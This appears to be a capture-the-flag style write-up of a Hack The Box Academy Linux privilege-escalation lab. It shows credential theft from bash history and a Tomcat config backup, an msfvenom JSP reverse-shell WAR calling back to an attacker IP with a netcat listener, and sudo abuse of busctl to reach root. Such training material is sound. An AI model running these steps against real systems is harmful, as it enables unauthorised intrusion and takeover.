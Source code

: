# Linux Local Privilege Escalation - Skills Assessment
We have been contracted to perform a security hardening assessment against one of the INLANEFREIGHT organizations' public-facing web servers.

The client has provided us with a low privileged user to assess the security of the server. Connect via SSH and begin looking for misconfigurations and other flaws that may escalate privileges using the skills learned throughout this module.

Once on the host, we must find five flags on the host, accessible at various privilege levels. Escalate privileges all the way from the htb-student user to the root user and submit all five flags to finish this module.

`SSH to 10.129.71.247 (ACADEMY-LLPE-SKILLS-NIX03) with user "htb-student" and password "Academy_LLPE!"`

## Flag 1 - Discovery through Hidden Configuration Files
To begin the enumeration, I searched for any hidden or protected flag files on the system using the command:
```bash
find / -name "*flag1.txt*" 2>/dev/null
```
![image](https://github.com/user-attachments/assets/d40392e8-9f39-47fb-af1d-06e59e54fd13)

I discovered the flag located at `/home/htb-student/.config/.flag1.txt.` To retrieve its contents, I used:
```bash
cat /home/htb-student/.config/.flag1.txt
```
This initial step highlights the importance of searching hidden directories for configuration leaks.

## Flag 2 - User Privilege Escalation through Bash History
Navigating to the `/home` directory revealed three user folders: `barry`, `htb-student`, and `mrb3n`. Inside `barry`'s directory, I found `flag2.txt`, but access was denied:
```bash
cd /home/barry
ls -la
cat flag2.txt   # Permission denied
```
To bypass this, I examined Barry's `.bash_history` with:
```bash
cat /home/barry/.bash_history
```
![image](https://github.com/user-attachments/assets/6d7aa9db-87a0-4145-bf3a-8418e17787da)

Inside the history, I found login attempts along with a password. Using thie password, I escalated to the `barry` user:
```bash
su barry
# Entered the password
```
As `barry`, I successfully read the flag:
```bash
cat /home/barry/flag2.txt
```

## Flag 3 - Log File Enumeration for Sensitive Information
To search for the third flag, I ran the following command:
```bash
find / -name "*flag3.txt*" 2>/dev/null
```
The flag was located in the /var/log directory:
```bash
cat /var/log/flag3.txt
```
This flag was exposed in log files, demonstrating poor security practices for sensitive information storage.

## Flag 4 - Tomcat Manager Exploitation and Reverse Shell
While exploring the `/var/log` directory, I discovered that `tomcat9` was running. Accessing `/etc/tomcat9/tomcat-users.xml.bak` revealed credentials for the Tomcat Manager. I logged in via the web interface and generated a WAR payload for a reverse shell using:
![image](https://github.com/user-attachments/assets/b949aaae-ee8b-4f3a-b2b1-d0d3b6720335)

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.44 lport=4444 -f war -o shell.war
```

I uploaded the WAR file to the Tomcat Manager interface and deployed it. With Netcat listening:
```bash
nc -lvnp 4444
```
I accessed the shell at:
`http://<Target-IP>:8080/shell/`

![image](https://github.com/user-attachments/assets/09edba34-57e3-4337-a33b-9a3f1e01bba4)

Inside the shell, I navigated to Tomcat's directory and retrieved the flag:
```bash
cat /var/lib/tomcat9/flag4.txt
```

## Flag 5 - Abusing Sudo Permissions and D-Bus Control
After getting a reverse shell, I needed a fully interactive shell. I spawned one using:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![image](https://github.com/user-attachments/assets/b7db7d64-d6df-44d5-8f04-440ab6087c2e)

To escalate further, I checked my sudo permissions as the tomcat user:
```bash
sudo -l
```
![image](https://github.com/user-attachments/assets/5a33975c-2b78-4a09-a80e-ee688cc208f3)

I noticed NOPASSWD rights for `/usr/bin/busctl`. Using the following command, I listed available services:
```bash
sudo /usr/bin/busctl list
```
I spawned a root shell by leveraging D-Bus interaction, then navigated to the root's home directory to find the final flag:
```bash
cd /root
cat flag5.txt
```
![image](https://github.com/user-attachments/assets/87cf2549-7e8f-42dc-a58a-9fe0bcd55078)
